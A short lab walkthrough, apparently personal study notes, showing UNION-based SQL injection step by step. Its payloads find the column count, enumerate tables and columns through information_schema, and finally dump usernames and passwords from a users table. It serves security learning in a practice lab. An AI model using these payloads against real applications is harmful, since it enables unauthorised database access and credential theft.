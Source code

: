 First step, as usual we need to find how many column. 
. `'+UNION+SELECT+'abc','def'--`

Next, we need to use this command to get the tables
. `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
We will receive this answer with all the tables. We will able to see one table called user_something
![[Pasted image 20250626223012.png]]

When we made the query with the table's name given, the db will return us two tables, username and password something.
1. `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_dogjtb'--`

![[Pasted image 20250626223220.png]]

Finally, we have all the information that we need to build our last query.
1. `'+UNION+SELECT+username_zbevlj,+password_apodjq+FROM+users_dogjtb--`
![[Pasted image 20250626223718.png]]
